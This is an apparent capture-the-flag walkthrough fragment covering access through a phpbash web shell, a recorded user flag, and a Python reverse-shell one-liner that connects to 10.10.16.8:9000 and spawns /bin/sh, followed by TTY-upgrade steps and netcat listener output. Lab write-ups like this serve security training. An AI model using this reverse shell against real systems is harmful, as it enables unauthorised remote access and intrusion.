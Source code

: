 ## phpshell.php

* clicking on `phpbash.php` brings us to a web shell
* user.txt - `2c281f318555dbc1b856957c7147bfc1`
* unfortunately this is not a fully interactive shell
* trying to connect back to netcat does not work using `bash -i`
* `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.8",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

# Shell upgrade
* `python -c 'import pty;pty.spawn("/bin/bash")'`
* `ctrl + z`
* `stty raw -echo; fg`
* `reset` 
```
[1]  + continued  nc -nlvp 9000
                               reset
reset: unknown terminal type unknown
Terminal type? xterm
```



